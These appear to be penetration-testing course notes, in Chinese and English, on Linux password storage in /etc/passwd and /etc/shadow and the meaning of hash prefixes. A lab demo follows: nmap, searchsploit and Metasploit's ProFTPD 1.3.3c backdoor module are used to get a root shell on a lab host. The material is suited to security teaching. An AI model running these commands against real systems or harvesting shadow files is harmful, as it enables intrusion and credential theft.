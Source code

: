 Linux 上所有帐户的所有信息都存储在位于 `/etc/passwd` 的 passwd 文件中。

我们无法查看 passwd 文件中用户的密码，因为它们是加密的，并且系统上的任何用户都可以读取 passwd 文件。

用户的所有加密密码都存储在影子文件中。 它可以在以下目录中找到：`/etc/shadow`。

影子文件只能由 root 帐户访问和读取，这是一项非常重要的安全功能，因为它可以防止系统上的其他帐户访问散列密码。

passwd 文件为我们提供了有关正在使用的哈希算法和密码哈希的信息，这非常有帮助，因为我们能够确定正在使用的哈希算法的类型及其强度。 我们可以通过查看由美元符号 (`$`) 封装的用户名后面的数字来确定这一点。

|值|哈希算法|
|---|---|
|$1|MD5|
|$2|Blowfish|
|$5|SHA-256|
|$6|SHA-512|

Whenever you list out the contents of the shadow file, you'll get the actual hashed password. But the hashed password will have a prefix that is going to be encapsulated or rather, it's going to be a prefix that contains the `$` symbol. And then after that, there's going to be a value that will actually tell you what type of hashing algorithm was used to encrypt that password.

# Demo: Linux Password Hashes
```
ifconfig
eth1: inet 192.44.156.2
```

```
nmap 192.44.156.3
PORT    STATE   SERVICE VERSION
21/tcp  open    ftp     ProFTPD 1.3.3c
```

```
searchsploit ProFTPD
```

I'm going to set the global variable for the RHOSTS option to the target IP.

```
service postgresql start && msfconsole
setg RHOSTS 192.44.156.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
show options
exploit
```

And we should obtain a command shell session, which we can then upgrade to a Meterpreter session.

So we get a command shell session, `/bin/bash -i` to obtain a bash session. So this particular exploit essentially provided us with elevated privileges.
